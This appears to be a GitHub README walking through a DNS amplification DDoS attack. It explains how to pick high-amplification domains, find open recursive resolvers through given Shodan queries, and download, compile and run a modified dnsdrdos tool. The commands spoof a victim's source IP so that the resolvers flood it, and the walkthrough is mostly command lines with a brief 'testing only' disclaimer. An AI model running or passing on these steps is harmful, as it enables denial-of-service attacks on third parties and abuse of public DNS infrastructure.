



botnet: which domain and DNS use?
Which domains use?• TLD
domains
• domains that use DNSSEC (e.g.: cloudflare.com)
usually are the most requested domain names by
malicious users.
Because of these domains cover a large zone they have a lot of input that increase the
received message that consequentially increase the amplification factor.
dig @45.156.201.87 ads -t ANY
When we set up the
amplification module scanner/dns/dns_amp to test, we have to insert the TLD or domains that use DNSSEC without the
dot like that:
Which DNS Open resolver use?To find them it is possible to search on shodan
for DNS open resolver.
Go to
https://www.shodan.io/ login and search for
“port:53 Recursion: enabled 9.3.2” or “port:53 Recursion: enabled dnsmasq-2.40”
*BIND 9.3.2 by default is set
to do recursive delegation
How do a DDOS attack(only for testing
purpose!)With the edited script of Noptrix of Nullsecurity:
https://raw.githubusercontent.com/nullsecuritynet/tools/master/dos/dnsdrdos/release/dnsdrdos.cI
have edited it to amplify the results to have bigger responses
root@kali:/# makedir ddos
root@kali:/# wget https://raw.githubusercontent.com/DenFox93/DNS-Amplification-DDOS-attack/main/dnsdrdosV2.c
root@kali:/# gcc dnsdrdosV2.c -o dnsdrdosV2 #compile
root@kali:/# ./dnsdrdosV2 -H #manual

root@kali:/# gedit servers.txt #here we insert the DNS open resolvers taken from shodan
root@kali:/# ./dnsdrdosV2 -f servers.txt -s 192.168.1.122 -d org #we are spoofing the source address with 192.168.1.122
#in this way, 192.168.1.122 will become our target
root@kali:/#
What part of the code of the script i have edited →
edit
dnsdrdos.c Original code:
https://raw.githubusercontent.com/nullsecuritynet/tools/master/dos/dnsdrdos/release/dnsdrdos.cYou
can find the edited code here:
https://github.com/DenFox93/DNS-Amplification-DDOS-attackBibliography:
•
https://www.researchgate.net/publication/264728528_Fingerprinting_Internet_DNS_Amplification_DDoS_Activities